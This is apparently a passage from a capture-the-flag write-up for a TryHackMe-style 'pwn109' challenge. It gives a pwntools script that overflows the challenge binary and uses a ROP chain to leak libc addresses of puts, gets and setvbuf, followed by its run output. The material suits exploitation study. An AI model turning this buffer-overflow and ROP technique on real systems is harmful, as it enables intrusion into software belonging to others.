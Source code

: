 ## Leaking the addresses from stack

This script prints the values of all three functions
```python
from pwn import *

context.binary = binary = ELF("./pwn109.pwn109",checksec=False)

pop_rdi_ret = p64(0x00000000004012a3)
ret = p64(0x000000000040101a)
plt_puts = p64(binary.plt.puts)
got_puts = p64(binary.got.puts)
got_gets = p64(binary.got.gets)
got_setvbuf = p64(binary.got.setvbuf)

payload = b"A"*0x20
payload += b"B"*0x8
# We need to define what to actually print. Mind that data is stored in RDI, then the GOT Address and plt PUTS at last
payload += pop_rdi_ret + got_puts + plt_puts
payload += pop_rdi_ret + got_gets + plt_puts
payload += pop_rdi_ret + got_setvbuf + plt_puts

p = process()
p.recvuntil(b"ahead")
p.recv()
p.sendline(payload)
out = p.recv().split(b"\n")

leaked_puts_address = u64(out[0].ljust(8, b"\x00"))
leaked_gets_address = u64(out[1].ljust(8, b"\x00"))
leaked_setvbuf_address = u64(out[2].ljust(8, b"\x00"))

print("Leaked PUTS Address: {}".format(str(hex(leaked_puts_address))))
print("Leaked GETS Address: {}".format(str(hex(leaked_gets_address))))
print("Leaked SETVBUF Address: {}".format(str(hex(leaked_setvbuf_address))))

#p.interactive()
```

```
luka@yurei:~/Desktop/thm/pwn109$ python3 pwn109.py 
[+] Starting local process '/home/luka/Desktop/thm/pwn109/pwn109.pwn109': pid 105549
Leaked PUTS Address: 0x7fee0cd3ced0
Leaked GETS Address: 0x7fee0cd3c5a0
Leaked SETVBUF Address: 0x7fee0cd3d670
```

If i check remotely, the end addresses of the last 3 nibbles are always the same.

